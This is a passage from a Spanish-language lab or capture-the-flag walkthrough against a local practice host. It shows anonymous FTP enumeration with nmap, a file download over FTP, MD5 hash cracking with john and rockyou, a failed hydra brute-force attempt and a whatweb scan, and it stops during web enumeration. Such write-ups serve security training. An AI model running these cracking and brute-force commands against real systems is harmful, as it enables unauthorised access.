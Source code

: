 **Servicios identificados:**
1. `[ 21 ]/[ TCP ]`: [ FTP ] ([ 3.0.5 ])
2. `[ 80 ]/[ TCP ]`: [ Apache ] ([ 2.4.41 ]) **ubuntuFocal**
---
## Enumeracion de [ Servicio FTP ]
Lanzamos un script para detectar si el usuario **Anonymous** esta habilitado.
```bash
 nmap --script ftp-anon.nse -p 21 172.17.0.2
```

Resultado obtenido:

Nos podremos conectar como este usuario sin proporcionar contrasena.
```bash
ftp-anon: Anonymous FTP login allowed (FTP code 230)
-r--r--r--    1 65534    65534          33 Sep 12  2024 anon.txt # Tenemos capaciada de lectura sobre este archivo.
```

Nos conectamos por este servicio para poder leeer el contenido de ese archivo: **( anon.txt )**
```bash
# Descargamos el contenido
wget -r ftp://anonymous@172.17.0.2/
```

Revisamos el contenido de este achivo:
```bash
cat anon.txt

53dd9c6005f3cdfc5a69c5c07388016d # Tenemos una potencial contrasena de algun usuario.
```

Realizando un ataque de fuerza bruta sobre el archivo desucbrimos que puede ser un potencial usuario:
```bash
john --wordlist= /usr/share/wordlists/rockyou.txt passwords.txt --format=raw-md5
```

Resultado:
```bash
# Tenemos usuarios potencilaes.
justin
emerald
```

Realizando fuerza bruta no obtuvimos nada
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f ftp://172.17.0.2
```
## Enumeracion de [Servicio Web Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET] # No reporta nada critico
```
